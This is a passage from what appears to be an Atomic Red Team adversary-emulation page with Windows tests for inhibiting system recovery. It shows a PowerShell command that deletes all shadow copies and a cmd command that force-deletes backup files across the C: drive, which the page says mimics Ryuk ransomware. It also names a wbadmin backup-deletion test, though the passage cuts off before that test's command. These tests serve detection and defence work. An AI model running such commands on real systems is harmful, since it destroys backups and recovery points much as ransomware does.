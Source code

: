 **Supported Platforms:** Windows


**auto_generated_guid:** 39a295ca-7059-4a88-86f6-09556c1211e7






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Get-WmiObject Win32_Shadowcopy | ForEach-Object {$_.Delete();}
```






<br/>
<br/>

## Atomic Test #6 - Windows - Delete Backup Files
Deletes backup files in a manner similar to Ryuk ransomware. Upon exection, many "access is denied" messages will appear as the commands try
to delete files from around the system.

**Supported Platforms:** Windows


**auto_generated_guid:** 6b1dbaf6-cc8a-4ea6-891f-6058569653bf






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
del /s /f /q c:\*.VHD c:\*.bac c:\*.bak c:\*.wbcat c:\*.bkf c:\Backup*.* c:\backup*.* c:\*.set c:\*.win c:\*.dsk
```






<br/>
<br/>

## Atomic Test #7 - Windows - wbadmin Delete systemstatebackup
Deletes the Windows systemstatebackup using wbadmin.exe. This technique is used by numerous ransomware families. This may only be successful on server platforms that have Windows Backup enabled.

**Supported Platforms:** Windows

